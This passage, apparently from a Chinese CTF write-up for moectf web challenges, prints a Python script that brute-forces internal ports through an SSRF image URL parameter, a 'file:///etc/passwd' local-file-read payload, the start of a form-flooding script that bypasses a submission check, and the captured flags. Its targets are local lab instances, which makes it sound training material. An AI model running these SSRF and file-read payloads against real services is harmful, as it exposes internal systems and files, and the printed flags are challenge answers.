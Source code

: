 > [!FLAG]
>
> moectf{lT-S3eMs-tH4t-YoU_KnOw_wHAt_1s-p0p-1N-PhPppPpPP!!!26}

### ImageCloud

> [!NOTE]
>
> [flask服务器](https://xz.aliyun.com/t/12163?time__1311=GqGxRDuDgQD%3DqGN4eeqBKwc4jxWw3OTxEbD)

使用 python 爆破内部端口：

```python title="ImageCloud.py"
import requests

base_url = "http://127.0.0.1:55844/image?url=http://localhost:{}/image/flag.jpg"

for port in range(5001, 6001):
    print(f"尝试端口: {port}")
    try:
        url = base_url.format(port)
        response = requests.get(url, timeout=5)
        if response.status_code == 200:
            print(f"成功访问的端口是: {port}")
            break
    except requests.RequestException:
        continue

else:
    print("未找到可成功访问的端口")
```

[成功爆破](attachments/WEB-10.png) => http://127.0.0.1:55844/image?url=http://localhost:5381/image/flag.jpg 访问获取图片

> [!FLAG]
>
> moectf{cEtTeBRAT3_y0u_Att4cK_t0-my-tmAge_CtOuDhhHhhH410}

### ImageCloud前置

`?url=` 文件读取 => `?url=file:///etc/passwd` => [flag](attachments/WEB-9.png)

> [!FLAG]
>
> moectf{I-@m-v3RY_SoRrY-abouT_tHiS42911bf8}

### ProveYourLove

根据题目提示，我们需要提交 300 份；而当我们提交后会被 confessionSubmitted 检测，故将其修改即可：

```python title="ProveYourLove.py"
import aiohttp
import asyncio
import json

BASE_URL = "http://127.0.0.1:53419"


async def submit_forms(count):
    async with aiohttp.ClientSession() as session:
        for i in range(count):
            form_data = {
                "nickname": f"User{i}",
                "user_gender": "other",
                "target": f"Target{i}",
                "target_gender": "other",
```